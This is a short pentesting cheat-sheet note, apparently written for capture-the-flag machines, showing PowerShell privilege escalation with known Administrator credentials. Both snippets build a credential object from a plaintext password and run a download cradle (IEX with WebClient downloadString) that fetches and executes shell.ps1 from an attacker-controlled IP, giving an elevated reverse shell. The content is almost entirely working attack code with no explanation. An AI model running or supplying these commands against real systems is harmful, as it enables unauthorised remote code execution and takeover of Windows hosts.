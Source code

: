 # Powershell privesc with known credentials (Administrator from Powerup)

## have to use credentials variable for using in Reverse_shell
```powershell
$SecPass = ConvertTo-SecureString 'Password' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.10.2/shell.ps1')" -Credential $cred
```

## different Version

```
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/shell.ps1') } -Credential $cred -Computer localhost
```

tags: powershell credentials ippsec chatterbox
